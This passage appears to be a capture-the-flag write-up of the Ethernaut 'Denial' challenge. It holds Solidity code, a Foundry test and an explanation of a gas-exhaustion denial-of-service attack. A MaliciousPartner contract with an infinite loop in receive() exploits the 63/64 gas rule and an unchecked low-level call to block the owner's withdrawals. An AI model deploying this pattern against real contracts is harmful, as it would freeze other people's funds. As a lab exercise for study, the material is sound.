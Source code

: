 ```
        // keep track of last withdrawal time
        timeLastWithdrawn = block.timestamp;
        withdrawPartnerBalances[partner] += amountToSend;
    }

    // allow deposit of funds
    receive() external payable {}

    // convenience function
    function contractBalance() public view returns (uint256) {
        return address(this).balance;
    }
}
```
- `test/Week8-9/Ethernaur_Denial.t.sol`
```
contract DenialTest is Test {
    Denial denial;
    MaliciousPartner partner;

    function setUp() public {
        denial = new Denial();
        partner = new MaliciousPartner();
        vm.deal(address(denial), 1_000 ether);
        denial.setWithdrawPartner(address(partner));
    }

    function testExploit() public {
        denial.withdraw();
        vm.expectRevert();
    }
}

contract MaliciousPartner {
    uint256 public random;

    receive() external payable {
        while (true) {
            random++;
        }
    }
}
```

### Exploit
To complete this challenge, we have to deny the owner from withdrawing funds when they call `withdraw`, essentially carrying out a DOS attack. Exploiting this contract requires some understanding of EIP-150 and the 63/64 Rule for gas. When `partner.call{value: amountToSend}("");` is executed, 63/64 of the available gas will be forwarded to `partner`, while 1/64 of the gas remains with the contract. By setting `partner` as a malicious contract with an infinite loop in the `receive` function, when `partner` receives ether from the contract, this infinite loop will execute and continue running until all the gas is consumed before the `payable(owner).transfer(amountToSend);` is executed. Since the return value was ignored in the low level `.call`, the failure in the `partner` would go unchecked in the event of any failure. The main contract will try to execute the transfer to `owner` but this will fail as the contract only has 1/64 gas, which is insufficient to continue executing the rest of the function. An error `EvmError: OutOfGas` will be thrown and `owner` will not be able to receive funds
